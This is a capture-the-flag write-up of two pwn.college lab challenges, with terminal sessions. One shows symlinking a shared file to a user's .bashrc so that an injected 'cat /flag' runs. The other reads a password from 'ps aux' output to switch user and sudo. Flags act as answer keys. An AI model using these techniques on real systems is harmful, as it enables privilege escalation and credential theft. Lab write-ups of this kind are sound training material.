 
## Tricky Linking
Zardus has further guarded up. He has started charing `/tmp/collab` folder instead of his `home` directory. Also, he maintains an `evil-commands.txt` file which contains the commands to be weary of. When you run `/challenge/victim` zardus will add the lines `cat /flag` to this `/tmp/collab/evil-commands.txt` file. How can you redirect his write by creating a symbolic link to trick him into revealing the flag.
### Solve
**Flag:** `pwn.college{Yw5dz0MCjdi46pArLPKES6Mj39H.0VM0EzNxwyNyAzNzEzW}`
- remove the `/tmp/collab/evil-commads.txt` file.
- create a symbolic link to `/home/zardus/.bashrc` with the same name.
- run `/challenge/victim` command to the line `cat /flag` gets added to zardus' `.bashrc` file.
- run `/challenge/victim` command again so when zardus executes his commands, it will print out the flag to the terminal.
```bash
hacker@shenanigans~tricky-linking:~$ rm /tmp/collab/evil-commands.txt 
rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
hacker@shenanigans~tricky-linking:~$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{Yw5dz0MCjdi46pArLPKES6Mj39H.0VM0EzNxwyNyAzNzEzW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```


## Sniffing Process Arguments
Zardus is using an automation script, passing his account password to it as an argument. Zardus is also allowed to use `sudo` (and, thus, to `sudo cat /flag`!). Steal the password, log in to Zardus' account and get the flag.
### Solve
**Flag:** `pwn.college{45ADGFGf-1FHBMFKpjdd94AoTZz.0FOzEzNxwyNyAzNzEzW}`
- pipe the output of `ps aux` to a file `ps.txt`
- `grep` to find the keyword `pw` in the above created file.
- copy the password
- switch user to `zardus`
- `cat` the flag using `sudo`
```bash
hacker@shenanigans~sniffing-process-arguments:~$ ps aux > ps.txt
hacker@shenanigans~sniffing-process-arguments:~$ grep "pw" ps.txt
root         147  0.0  0.0   5204  3200 ?        S    08:32   0:00 su -c auto.sh --user zardus --pass pw_2465417715 zardus
zardus       151  0.0  0.0   4132  2560 ?        Ss   08:32   0:00 /bin/bash /run/challenge/bin/auto.sh --user zardus --pass pw_2465417715
hacker@shenanigans~sniffing-process-arguments:~$ su zardus
Password: 
zardus@shenanigans~sniffing-process-arguments:/home/hacker$ sudo cat /flag
pwn.college{45ADGFGf-1FHBMFKpjdd94AoTZz.0FOzEzNxwyNyAzNzEzW}
```
